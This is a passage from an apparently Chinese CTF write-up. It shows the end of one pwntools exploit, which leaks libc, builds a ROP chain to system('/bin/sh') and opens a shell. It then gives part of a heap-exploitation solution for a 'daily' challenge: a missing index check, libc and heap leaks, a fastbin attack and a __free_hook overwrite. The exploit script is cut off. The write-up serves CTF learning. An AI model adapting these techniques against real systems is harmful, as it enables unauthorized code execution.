 ```python

libc = u64(r.recvuntil("\n")[0:6].ljust(8,'\0')) - 0x06f690
print "libc: " + hex(libc)

system = libc + 0x045390
binsh = libc + 0x18cd57

write(0x158, [pie + pop_rdi_ret, binsh, system, 0, 0, 0, 0, 0])

r.interactive()
```

### daily

`remove`的时候没有对`index`进行范围检测.  

![](https://i.loli.net/2019/04/23/5cbde706ee0aa.png)  

先利用`unsorted bin`泄露`libc`,再利用`fastbin`单链表泄露`heap`基址.

申请一个`chunk`,在里面伪造一个堆指针和对应的`faker chunk`.  
`free`掉这个`faker chunk`,通过`edit`构造其`fd`到`bss`上,由于`length`可控,通过`remove`构造出一个`chunk`头部绕过检查.  
成功`fastbin attack`,获得任意读写的能力,由于程序开了`Full RELRO`所以劫持`__free_hook`调用`system(binsh);`获得`flag`.

```python
from pwn import *

context.log_level = 'debug'
#r = process("./pwn")
ptr = 0x602060
r = remote("85c3e0fcae5e972af313488de60e8a5a.kr-lab.com", "58512")

def show():
    r.sendline(str(1))
    data = r.recvuntil("Your choice:")
    return data

def add(length, content):
    r.sendline(str(2))
    r.recvuntil("of daily:")
    r.sendline(str(length))
    r.recvuntil("daily\n")
    r.send(content)
    r.recvuntil("Your choice:")

def edit(index, content):
    r.sendline(str(3))
    r.recvuntil("of daily:")
    r.sendline(str(index))
    r.recvuntil("daily\n")
    r.send(content)
    r.recvuntil("Your choice:")

def remove(index):
    r.sendline(str(4))
    r.recvuntil("of daily:")
    r.sendline(str(index))
    r.recvuntil("Your choice:")

r.recvuntil("Your choice:")

add(0x100, 'a')#0
add(0x100, 'b')#1
add(0x100, 'c')#2
add(0x100, 'd')#3
```